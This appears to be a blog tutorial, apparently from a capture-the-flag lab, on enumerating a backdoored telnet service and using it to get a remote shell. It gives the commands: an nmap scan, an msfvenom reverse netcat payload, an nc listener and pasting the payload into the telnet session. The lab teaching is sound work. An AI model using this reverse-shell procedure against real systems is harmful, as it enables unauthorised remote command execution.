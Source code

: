 ```yaml
---
layout: single
title: Telnet Enumeration & Exploiting
excerpt: "MTelnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host."
date: 2021-08-31
classes: wide

categories:
  - Blue Team
  - infosec
  - Red Team
tags:
  - Blue Team
  - Red Team
---
```


# What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

# How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

# Connect

```
telnet 10.10.10.3 23
```

# Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

# Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap and the tag -A and -p-.


-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

# Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

https://www.cvedetails.com/
https://cve.mitre.org/
A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

Method Breakdown

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

Connecting to Telnet

You can connect to a telnet server with the following syntax:

    "telnet [ip] [port]"

We're going to need to keep this in mind as we try and exploit this machine.


What is a Reverse Shell?


![113122ea801a42a98e48450877fb6af3](https://user-images.githubusercontent.com/89842187/131561059-052fde7d-5c75-4870-8208-7c06cf8d00bf.png)

A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

# start listening for icmp
sudo tcpdump ip proto \\icmp -i tun0

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[] lport=[] R
.RUN <copypaste payload raw>
```
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

First run the netcat command to listen to our lport.
nc -lvp $lport

Then in the telnet session, run the payload generated by msfvenom earlier (basically copy/paste entire last line into the telnet session).

![b856c2593d3c477ba136f480f31b8048](https://user-images.githubusercontent.com/89842187/131560938-03eab854-bd4d-4e92-8023-81b0ae476726.png)

